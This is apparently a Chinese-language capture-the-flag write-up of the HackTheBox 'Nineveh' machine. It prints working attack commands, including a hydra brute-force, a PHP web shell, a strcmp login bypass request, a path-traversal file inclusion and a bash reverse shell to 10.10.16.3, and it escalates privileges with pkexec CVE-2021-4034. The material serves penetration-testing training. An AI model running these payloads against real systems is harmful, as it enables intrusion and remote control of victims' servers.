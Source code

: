 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Nineveh"
linktitle: "Nineveh"
date: 2022-07-08T18:00:40+08:00
type: book
summary: ""
test: 
---
```




nmap

```bash
sudo nmap -T4 -p- -vv -sV 10.10.10.43
```

![](image/image_ayrUWD_uUe.png)

dirbuster  80端口

![](image/image_ONGRQ3yB8b.png)

![](image/image_BSd3_gGImO.png)

dirbuster  443端口

![](image/image_9Pgf2gtAn3.png)

这里用了不同的字典扫了几遍，扫出的关键路径和文件

`info.php`、`/department` 、`/db`

phpLiteAdmin v1.9

![](image/image_VFa9WZQODe.png)

搜了下版本存在远程代码执行，但是需要登录

![](image/image_nu90E_MCRC.png)

使用hydra爆破

```bash
hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64 -V
```

得到密码 `password123`

![](image/image_M6yqKDQGi4.png)

登录成功

![](image/image_49y-rXlEUA.png)

插入一个恶意的php文件

![](image/image_0dqfYts2hb.png)

插入表

![](image/image_tEAnlvLNWE.png)

写入字段默认值

Default Value

```bash
<?php system($_REQUEST["cmd"]);?>
```

![](image/image_a0LhXJCdXL.png)

![](image/image_UwSoJVWunk.png)

文件写入，但是不在web目录，无法解析

![](image/image_lN21SD9U2U.png)

这里暂时没办法往下渗透了。

查看`info.php`

![](image/image_He3vfLmKkP.png)

allow\_url\_fopen=off

allow\_url\_include=on

<http://10.10.10.43/department/>

![](image/image_InoiZmFTif.png)

这里password参数存在php弱类型的问题

把参数password改为password\[]

当传递参数去和密码比较的时候

```bash
if(strcmp($_REQUEST['password'], $password) == 0)
```

因为传递了一个数组去和密码进行比较，php会报错返回Null，Null和0去比较结果为true。导致if被绕过，导致可以直接登录

以下请求直接登录成功

```bash
POST /department/login.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://10.10.10.43
Connection: close
Referer: http://10.10.10.43/department/login.php
Cookie: PHPSESSID=aio9cnnl1ish99moqj1lu35it6
Upgrade-Insecure-Requests: 1

username=admin&password[]=
```

admin

![](image/image_hFhKp638kx.png)

notes参数存在文件包含，显示了ninevehNotes.txt的内容在下方

![](image/image_9-HY3APK_y.png)

前面通过`info.php`发现`allow_url_include=on`是开启的，尝试使用php伪协议执行命令

报错了，尝试了几次发现notes存在参数检查，必须包含`ninevehNotes`字符串

![](image/image_SnaQ0j251V.png)

notes=/ninevehNotes/../../../../../../../etc/passwd

![](image/image_bl4vZl8mGZ.png)

这样就无法直接包含`php://input`

可以包含443端口之前写入的恶意文件 `/var/tmp/exp.php`

```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../var/tmp/exp.php&cmd=id
```

执行成功

![](image/image_MjcKY98l30.png)

反弹shell

```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../var/tmp/exp.php&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.3/2333+0>%261'
```

获得shell

![](image/image_4s87y6TwBx.png)

pkexec提权

python3 [CVE-2021-4034-py3.py](http://CVE-2021-4034-py3.py "CVE-2021-4034-py3.py")

![](image/image_h3JEWLFUWz.png)
